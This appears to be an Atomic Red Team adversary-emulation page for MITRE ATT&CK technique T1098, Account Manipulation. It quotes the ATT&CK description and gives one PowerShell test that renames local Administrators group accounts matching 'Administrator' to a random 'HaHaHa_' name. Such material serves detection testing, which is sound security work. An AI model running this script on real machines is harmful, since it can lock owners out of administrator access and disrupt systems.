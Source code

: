 ```yaml
---
published: false
---
```

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1098)
<blockquote>Account manipulation may aid adversaries in maintaining access to credentials and certain permission levels within an environment. Manipulation could consist of modifying permissions, modifying credentials, adding or changing permission groups, modifying account settings, or modifying how authentication is performed. These actions could also include account activity designed to subvert security policies, such as performing iterative password updates to subvert password duration policies and preserve the life of compromised credentials. In order to create or manipulate accounts, the adversary must already have sufficient permissions on systems or the domain.</blockquote>

## Atomic Tests

- Atomic Test #1 - Admin Account Manipulate

## Atomic Test #1 - Admin Account Manipulate
Manipulate Admin Account Name

**Supported Platforms:** Windows

#### Run it with `powershell`!

```
$x = Get-Random -Minimum 2 -Maximum 9999
$y = Get-Random -Minimum 2 -Maximum 9999
$z = Get-Random -Minimum 2 -Maximum 9999
$w = Get-Random -Minimum 2 -Maximum 9999
Write-Host HaHaHa_$x$y$z$w

$hostname = (Get-CIMInstance CIM_ComputerSystem).Name

$fmm = Get-CimInstance -ClassName win32_group -Filter "name = 'Administrators'" | Get-CimAssociatedInstance -Association win32_groupuser | Select Name

foreach($member in $fmm) {
    if($member -like "*Administrator*") {
        Rename-LocalUser -Name $member.Name -NewName "HaHaHa_$x$y$z$w"
        Write-Host "Successfully Renamed Administrator Account on" $hostname
        }
    }
```
